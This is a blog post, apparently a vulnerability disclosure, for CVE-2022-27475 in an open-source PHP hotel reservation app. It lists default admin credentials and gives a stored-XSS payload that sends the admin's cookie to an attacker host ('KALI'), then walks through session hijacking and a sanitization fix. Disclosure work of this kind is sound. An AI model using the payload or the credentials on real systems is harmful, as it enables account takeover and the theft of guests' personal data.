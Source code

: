 ```yaml
---
layout: post
title: CVE-2022-27475  
subtitle: Finding Small Bugs in Github
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


# CVE-2022-27475

While looking at some open source projects on github I came across [this](https://github.com/tramyardg/hotel-mgmt-system) hotel management software. The webapp is used to create reservations for a hotel. I decided to downlaod it and play around with the app and my findings are below

# Default Passwords in admin.json

The admin.json file is readable by any user. If these account passwords are not changed anyone can get access to the admin console

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/f6f56174ff3d4c5d8746d627bf4b652c.png)

`martha@hotmail.com:1324`
`admin@gmail.com:admin123`
`admin@admin.com:admin123`

# Stored XSS

The `Name` field in `/register.php` is vulnerable to a stored XSS vulnerbility. When a user imputs malicious code such as `<script>new Image().src="http://KALI/cookie.php?c="+document.cookie;</script>` into the `Name` field whenever the admin goes to `/admin.php` the malicous Java Script code will be ran and the admins cookie will be sent to the attacker. The attacker can then use this cookie to gain access to `/admin.php` allowing him to get PII such as full names, phone numbers, and email addresse. This PII can then be used for other attacks

## POC

We can create a new user with the malicious XSS as the `Name`

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/675ecd9086dd474197606b9f02a09dee.png)

When an Admin logs into the admin page they will not see our XSS but our payload did execute
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/6b2db54ce9234750adfb009403e6824b.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/19e7d108edce46bcbd8480dd3ef8837d.png)

Back on kali we can see admins cookie

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/9acef946a430450483a82f26f0db6ada.png)

Signed in as another user we can edit our cookie to be the admins

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/4af5a4ee4a5a47b5b99976ec01877958.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/575d61ec0cd84fe6baad0d3fdffb59ac.png)

Now going to `/admin.php` we can view bookings as another user.

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/cc9c986945504c1ea24ea95c18d06375.png)

# Fix

To fix this add the following code at the top of `/app/process_registration.php`

```
function sanitize_xss($value) {
    return htmlspecialchars(strip_tags($value));
}
```

Then Around line 30 make the following change
`$customer->setFullName(sanitize_xss($_POST["fullName"]));`

This will sanitize the input

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/06132c248d4a4f29968190785c928a65.png)
